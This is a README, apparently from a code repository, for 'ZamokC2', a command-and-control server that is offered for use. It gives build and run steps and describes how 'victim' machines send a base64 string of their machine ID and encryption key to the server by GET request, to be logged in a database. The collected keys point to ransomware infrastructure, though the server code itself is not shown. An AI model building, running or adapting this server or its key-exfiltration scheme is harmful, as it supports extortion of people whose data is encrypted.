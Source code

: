 # ZamokC2
A simple but effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
## You can now start it by simply running :
    ```
    ./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - SOME_STRING is a base64 string of a unique victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaks down the request and gets the 2 values : the id and the key
5. It saves these values to an SQLite database locally 
6. It displays a banner on the terminal, with the details of the new victim machine